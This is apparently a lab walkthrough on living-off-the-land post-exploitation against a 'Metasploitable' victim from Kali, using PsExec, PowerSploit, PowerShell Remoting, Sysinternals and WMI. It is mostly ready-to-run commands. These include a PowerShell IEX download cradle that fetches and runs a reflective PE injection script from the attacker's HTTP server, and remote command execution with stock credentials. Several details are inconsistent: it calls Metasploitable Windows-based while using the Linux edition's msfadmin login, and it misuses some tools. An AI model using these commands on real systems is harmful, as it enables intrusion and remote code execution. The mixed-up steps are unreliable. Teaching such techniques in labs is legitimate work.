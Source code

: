 #Lab 2: Post-Exploitation using Legitimate Utilities and Living-off-the-Land

**Objective:**
This lab focuses on performing post-exploitation tasks on a Windows-based victim machine (Metasploitable) using legitimate utilities like **PsExec**, **PowerShell**, and **PowerSploit**. The goal is to use these tools to gain further access, execute commands, and gather information from the compromised system, all without deploying additional malicious files.

**Attacker Machine: Kali Linux (Example IP: `192.168.78.147`)**  
**Victim Machine: Metasploitable (Example IP: `192.168.78.6`)**

---

### **Overview of Tools:**

- **PsExec**: A Sysinternals tool for executing processes on remote Windows systems.
- **PowerShell**: A scripting language used to automate tasks, useful for performing post-exploitation tasks.
- **PowerSploit**: A collection of PowerShell scripts that can be used for exploitation, exfiltration, and persistence.
- **PowerShell Remoting**: A feature in Windows that allows remote execution of PowerShell commands.
- **Sysinternals Suite**: A collection of powerful utilities for system administration, useful in post-exploitation.

---

### **Task 1: Install PsExec on Kali Linux and Use It to Control the Victim Machine**

#### **1.1 Install PsExec on Kali Linux:**

1. **Download Sysinternals Suite**:
   Open a terminal on Kali and download the Sysinternals Suite:
   ```bash
   wget https://download.sysinternals.com/files/SysinternalsSuite.zip
   ```

2. **Extract the Suite**:
   Extract the downloaded zip file:
   ```bash
   unzip SysinternalsSuite.zip
   ```

3. **Install Wine (for running Windows executables on Linux)**:
   PsExec is a Windows executable, so install Wine to run it:
   ```bash
   sudo apt update
   sudo apt install wine
   ```

4. **Run PsExec Using Wine**:
   Navigate to the extracted Sysinternals folder and run PsExec with Wine:
   ```bash
   wine PsExec.exe \\192.168.78.6 -u msfadmin -p msfadmin cmd.exe
   ```

#### **1.2 Use PsExec to Execute Remote Commands on Metasploitable:**

1. **List Running Processes**:
   After connecting to the victim machine via PsExec, list the running processes to gather information:
   ```bash
   wine PsExec.exe \\192.168.78.6 -u msfadmin -p msfadmin tasklist
   ```

2. **Execute Additional Commands**:
   Try running more commands on the victim system, such as launching `calc.exe` to demonstrate interaction with the victim's desktop:
   ```bash
   wine PsExec.exe \\192.168.78.6 -u msfadmin -p msfadmin -d -i calc.exe
   ```

---

### **Task 2: Install and Use PowerSploit on Kali Linux**

#### **2.1 Clone PowerSploit Repository:**

1. **Clone PowerSploit**:
   Open a terminal and run the following command to clone the PowerSploit repository:
   ```bash
   git clone https://github.com/PowerShellMafia/PowerSploit.git
   ```

2. **Navigate to PowerSploit Directory**:
   Change to the PowerSploit directory:
   ```bash
   cd PowerSploit
   ```

#### **2.2 Serve PowerSploit Scripts Over HTTP:**

1. **Start an HTTP Server to Expose Scripts**:
   In Kali, you can serve the PowerSploit scripts over HTTP using Python:
   ```bash
   sudo python3 -m http.server 1337
   ```

   This will make the scripts accessible at `http://<Kali_IP>:1337`.

#### **2.3 Download and Execute a PowerSploit Script on Metasploitable:**

1. **Download and Execute the Script**:
   On the victim machine (Metasploitable), open PowerShell and run the following command to download and execute a PowerSploit script (e.g., `Invoke-ReflectivePEInjection.ps1`):
   ```powershell
   IEX (New-Object Net.WebClient).DownloadString('http://192.168.78.147:1337/Invoke-ReflectivePEInjection.ps1')
   ```

   This script will be executed remotely on the victim machine, allowing further post-exploitation actions like data exfiltration.

---

### **Task 3: Using PowerShell Remoting for Further Exploitation**

#### **3.1 Enable PowerShell Remoting on Metasploitable:**

1. **Enable Remoting (if needed)**:
   On Metasploitable, open PowerShell and enable PowerShell remoting:
   ```powershell
   Enable-PSRemoting -SkipNetworkProfileCheck -Force
   ```

   This command will allow PowerShell to accept remote connections.

#### **3.2 Connect to Metasploitable Remotely Using PowerShell Remoting:**

1. **Initiate a Remote PowerShell Session**:
   On Kali, initiate a remote PowerShell session to Metasploitable:
   ```powershell
   Enter-PSSession -ComputerName 192.168.78.6 -Credential (Get-Credential)
   ```

   Provide the username and password (`msfadmin:msfadmin`) when prompted.

2. **Execute Commands Remotely**:
   Once connected, you can execute any PowerShell command remotely on the victim machine. For example:
   - Get a list of installed programs:
     ```powershell
     Get-WmiObject -Class Win32_Product
     ```

---

### **Task 4: Using Sysinternals Tools for Post-Exploitation**

#### **4.1 Using PsExec for Remote Process Execution:**

1. **Launch Calculator on the Victim**:
   You can launch the calculator application on the victim system using PsExec:
   ```bash
   wine PsExec.exe \\192.168.78.6 -u msfadmin -p msfadmin -d -i calc.exe
   ```

#### **4.2 Using Other Sysinternals Tools:**

1. **List Logged-In Users**:
   Use PsLoggedOn to list users logged into the victim system:
   ```bash
   wine PsExec.exe \\192.168.78.6 -u msfadmin -p msfadmin PsLoggedOn
   ```

2. **List Running Processes**:
   Use PsList to display running processes:
   ```bash
   wine PsExec.exe \\192.168.78.6 -u msfadmin -p msfadmin PsList
   ```

3. **Pull Event Logs**:
   Use PsLogList to pull event logs from the victim machine:
   ```bash
   wine PsExec.exe \\192.168.78.6 -u msfadmin -p msfadmin PsLogList
   ```

---

### **Task 5: Using Windows Management Instrumentation (WMI) for Post-Exploitation**

#### **5.1 Use WMI to Gather System Information**:

1. **Enumerate System Information**:
   Use the following PowerShell command to gather information about the victim system:
   ```powershell
   Get-WmiObject -Class Win32_OperatingSystem
   ```

2. **Use WMI to Execute Remote Commands**:
   You can also use WMI to execute commands remotely on the victim machine:
   ```powershell
   Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "cmd.exe /c echo Hello from Kali"
   ```

---

### **Conclusion:**

This lab demonstrates how attackers can use legitimate tools like **PsExec**, **PowerShell**, and **PowerSploit** to perform post-exploitation activities on a Windows-based system (Metasploitable) from a Kali Linux attacker machine. The tools outlined here enable an attacker to execute remote commands, exfiltrate data, and maintain persistence without installing additional malicious software.

By leveraging **living-off-the-land** techniques, attackers can carry out their activities under the radar, using only built-in tools and scripts that are often overlooked by security software.

---

### **Takeaways:**

- **PsExec** allows remote execution of commands on Windows systems.
- **PowerSploit** offers a set of scripts that enable data exfiltration and further exploitation.
- **PowerShell Remoting** provides a secure way to manage systems remotely and can be used for post-exploitation.
- **Sysinternals tools** like PsExec, PsList, and PsLoggedOn help gather detailed information and execute remote commands on a compromised machine.
- **WMI** allows you to automate administrative tasks and interact with the system remotely.
